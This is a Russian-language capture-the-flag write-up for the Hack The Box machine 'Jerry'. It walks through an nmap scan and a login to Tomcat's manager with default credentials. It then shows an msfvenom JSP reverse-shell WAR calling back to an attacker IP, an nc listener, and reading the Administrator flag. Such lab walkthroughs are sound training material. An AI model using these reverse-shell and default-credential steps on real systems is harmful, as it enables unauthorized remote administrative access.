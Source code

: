 # 🟢 Jerry(Windows, Easy)

![](../.gitbook/assets/1.png)

### Содержание:

В самом начале мы сканируем порты и обнаруживаем только один порт. На данном порту расположен tomcat. Используя дефолтные значения, заходим в панель tomcat и загружаем туда war-эксплоит, который даст нам реверс шелл, который будет уже с правами админа.

### Сканируем порты с помощью nmap:

```
$ nmap -sC -sV -Pn 10.10.10.95 -oN nmap
```

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
```

### Входим с помощью дефолтных данных:

На 8080 порту мы видим tomcat:

![](../.gitbook/assets/2.png)

Можем перейти на /manager/html и использовать дефолтные креды, чтобы попасть в панель админа:

`tomcat:s3cret`

![](<../.gitbook/assets/3 (1).png>)

### Создаем war эксплоит с помощью msfvenom:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.43 LPORT=9898 -f war > shell.war
```

Загружаем в tomcat:

![](../.gitbook/assets/4.png)

Ставим листенер:

```
$ nc -nlvp 9898
```

### Запускаем эксплоит и получаем администратора:

Заходим по [http://10.10.10.95:8080/shell](http://10.10.10.95:8080/shell) и получаем шелл. Изначально оболочка получается сразу от имени админа, можно прочитать файл с флагом с помощью данной команды:

```
C:\Users\Administrator\Desktop\flags>type "C:\Users\Administrator\Desktop\flags\2 f
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
```

![](../.gitbook/assets/5.png)
